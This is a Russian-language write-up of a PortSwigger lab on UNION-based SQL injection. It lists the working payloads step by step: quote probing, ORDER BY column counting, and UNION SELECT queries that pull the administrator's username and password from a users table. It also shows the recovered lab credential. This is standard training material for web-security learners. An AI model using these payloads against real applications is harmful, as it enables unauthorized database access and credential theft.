 ```yaml
---
title: "SQL injection UNION attack retrieving data from other tables"
date: 2025-06-19
tags: [sqli, writeup]  
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables"
---
```


В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/
```

## Solution

Известно, что уязвимость находится в фильтре категорий, поэтому сразу возьму его.

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/filter?category=Pets
```

Нужно подобрать обрамление. Пусть запрос выглядит следующим образом:

```sql
SELECT * FROM table WHERE category = 'Pets'
```

Протестирую пейлоад:

```
Pets' and 0=1-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-data-from-other-tables/1.png){: height="200" .align-center}

Страница пустая, значит для обрамления используются одинарные кавычки. Теперь узнаю количество полей в запросе с помощью `ORDER BY`:

```
Pets' ORDER BY 10-- -Error
Pets' ORDER BY 5-- -Error
Pets' ORDER BY 3-- -Error
Pets' ORDER BY 2-- -Ok
```

Значит в запросе 2 параметра. Использую `UNION`, чтобы отобразить данные:

```
Pets' and false UNION SELECT NULL, NULL-- -Ok
Pets' and false UNION SELECT 1, 2-- -Error
Pets' and false UNION SELECT '1', '2'-- -Ok
```

Теперь попробую добавить поля `username` и `password`:

```
Pets' and false UNION SELECT username, password FROM users WHERE username = 'administrator'-- -ok
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-data-from-other-tables/2.png){: height="200" .align-center}

Лаба решена:3
Получил креды: `administrator`:`5j1o1b7ls5ltyvanoo42`. Зайду в аккаунт: 

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-data-from-other-tables/3.png){: height="200" .align-center}

Ну, все. Я получил власть...
